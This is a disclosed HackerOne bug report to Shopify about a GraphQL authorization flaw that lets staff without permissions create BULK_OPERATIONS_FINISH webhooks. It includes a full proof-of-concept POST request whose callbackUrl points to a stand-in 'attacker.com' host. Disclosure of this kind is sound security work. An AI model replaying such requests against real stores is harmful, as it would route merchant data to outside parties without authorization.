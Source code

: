 # Staff  can use BULK_OPERATIONS_FINISH webhook topic using Graphql without permissions all

## Report Details
- **Report ID**: 1350095
- **URL**: https://hackerone.com/reports/1350095
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-09-24T00:40:48.011Z
- **Disclosed**: 2021-12-04T01:04:09.592Z

## Reporter
- **Username**: yinvi777
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
I am reporting this because it looks like an authorization bug in GraphQL.
A Staff member with no  permissions on a Shopify Store may be able to create Webhooks with the webhookSubscriptionCreate mutation on
BULK_OPERATIONS_FINISH webhook topic.

POST /admin/internal/web/graphql/core?operation=PageStaff HTTP/1.1
Host: yinvi-nacho-2.myshopify.com
Connection: close

{
"operationName": "webhookSubscriptionCreate",
"variables": {
"topic": "BULK_OPERATIONS_FINISH",
"webhookSubscription": {
"callbackUrl": "https://attacker.com"
}
},
"query": "mutation webhookSubscriptionCreate($topic: WebhookSubscriptionTopic!, $webhookSubscription: WebhookSubscriptionInput!) {\r\n  webhookSubscriptionCreate(topic: $topic, webhookSubscription: $webhookSubscription) {\r\n    userErrors {\r\n      field\r\n      message\r\n    }\r\n    webhookSubscription {\r\n      id\r\n    }\r\n  }\r\n}"
}

## Impact

Staff  with no permissions may be able to access or perform unauthorized actions  on  bulk-operation  https://shopify.dev/api/usage/bulk-operations/queries

## Attachments
No attachments
